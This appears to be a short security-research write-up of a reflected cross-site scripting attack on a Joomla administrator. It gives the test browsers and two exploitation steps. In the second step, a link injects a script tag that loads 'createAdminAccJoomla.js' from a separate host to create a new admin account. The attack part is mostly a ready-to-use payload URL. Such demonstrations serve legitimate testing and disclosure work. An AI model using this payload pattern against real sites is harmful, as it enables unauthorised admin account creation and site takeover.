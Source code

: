 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. victim user (with administrative privileges) logs in

http://192.168.5.19/administrator

2. victim user clicks link

```
http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/createAdminAccJoomla.js></script>
```

## Screenshots

![Image](screenshots/Joomla_-_create_new_admin_-_1-1.png)
